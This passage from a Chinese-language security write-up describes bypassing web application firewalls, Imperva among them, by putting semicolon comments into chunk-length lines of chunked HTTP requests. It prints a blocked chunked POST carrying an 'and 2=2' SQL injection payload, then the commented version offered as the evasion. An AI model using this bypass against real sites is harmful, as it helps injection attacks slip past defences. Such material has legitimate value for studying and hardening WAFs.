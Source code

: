 ```
   before any higher-level application would have a chance to inspect
   the extensions.  Hence, use of chunk extensions is generally limited
```

通过阅读规范发现分块传输可以在长度标识处加上分号“;”作为注释，如：

```
9;kkkkk
1234567=1
4;ooo=222
2345
0
(两个换行)
```

几乎所有可以识别Transfer-Encoding数据包的WAF，都没有处理分块数据包中长度标识处的注释，导致在分块数据包中加入注释的话，WAF就识别不出这个数据包了。

现在我们在使用了Imperva应用防火墙的网站测试常规的分块传输数据包：

```
POST /xxxxxx.jsp HTTP/1.1
......
Transfer-Encoding: Chunked

9
xxxxxxxxx
9
xx=xxxxxx
9
xxxxxxxxx
1
d
9
&a=1    and    
3
2=2
0
（两个换行）
```

返回的结果如下图所示。

[![img](https://p0.ssl.qhimg.com/dm/1024\_509\_/t01e68aae3729de0934.png)](https://p0.ssl.qhimg.com/dm/1024\_509\_/t01e68aae3729de0934.png)

可以看到我们的攻击payload “and 2=2”被Imperva的WAF拦截了。

这时我们将分块传输数据包加入注释符。

```
POST /xxxxxx.jsp HTTP/1.1
......
Transfer-Encoding: Chunked

9
xxxxxxxxx
9
xx=xxxxxx
9
xxxxxxxxx
1;testsdasdsad
d
9;test
&a=1    and    
3;test44444
2=2
0
(两个换行)
```